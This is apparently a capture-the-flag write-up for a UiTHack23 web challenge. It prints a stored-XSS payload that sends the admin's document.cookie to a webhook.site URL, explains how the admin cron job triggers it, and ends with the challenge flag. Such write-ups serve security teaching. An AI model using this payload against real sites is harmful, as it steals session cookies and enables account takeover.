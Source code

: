 >#  Flags 24/7 
>Bill gates approves this design

# Writeup

Initialize some type of server to catch requests. Due to university network restrictions we weere not able to send request between own subdomains, and had to use a public service.

[https://webhook.site/](https://webhook.site/)

Add xss script to the form data
```<img src=x onerror="this.src='https://webhook.site/3dfcb0ae-77ef-40f3-b844-154f74b62185/?'+document.cookie; this.removeAttribute('onerror');">```

Cronjob/admin is set to load the admin page every minute. The script is forced to do an `onError` as the src is faulty.  It triggers the script and will send a request with the cookie as parameter back to the address/server initialized.

`UiTHack23{xxspl0its_4r3_phun}`

